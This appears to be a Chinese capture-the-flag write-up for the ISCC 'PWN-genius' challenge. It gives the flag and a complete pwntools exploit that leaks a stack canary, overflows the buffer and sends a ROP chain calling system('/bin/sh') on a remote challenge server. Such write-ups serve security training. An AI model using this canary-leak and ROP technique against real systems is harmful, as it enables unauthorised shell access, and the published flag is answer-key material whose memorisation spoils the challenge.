

# genius

WK-[已脱敏]-[email已脱敏]
### **题目类型+题目名称**

PWN-genius

### **解题思路（必须包含文字说明+截图）**

很简单的rop题，先泄露canary，再利用栈溢出布置rop，rdi设置为bin_sh的地址，返回地址设置为system的地址



ISCC{df5991f1-d3cc-4d3a-b40f-ee88cd1bdfaf}

### **Exp（如有，请粘贴完整代码，不允许截图！）**

```python
from pwn import *

context.log_level = 'debug'

p = remote("101.200.155.151", 12000)
# p = process("attachment-22")
# gdb.attach(p)

p.recvuntil(b"you are a genius,yes or no?")
p.sendline(b"no")
p.recvuntil(b"Sir, don't be so modest.")
p.sendline(b"thanks")

p.recvuntil(b"what you want in init")
p.sendline(cyclic(0x18))
p.recvuntil(b"\x0a")

canary = u64(p.recv(7).ljust(8,b'\x00'))
canary = (canary << 8) | 0x00
log.info("leak: " + hex(canary))

ret = 0x000000000040101a
pop_rdi = 0x00000000004013f3
bin_sh = 0x402004
system = 0x401050

rop = cyclic(0x18) + p64(canary) + p64(0x0) + p64(ret) +p64(pop_rdi) + p64(bin_sh) + p64(system)

p.sendline(rop)

p.interactive()
```


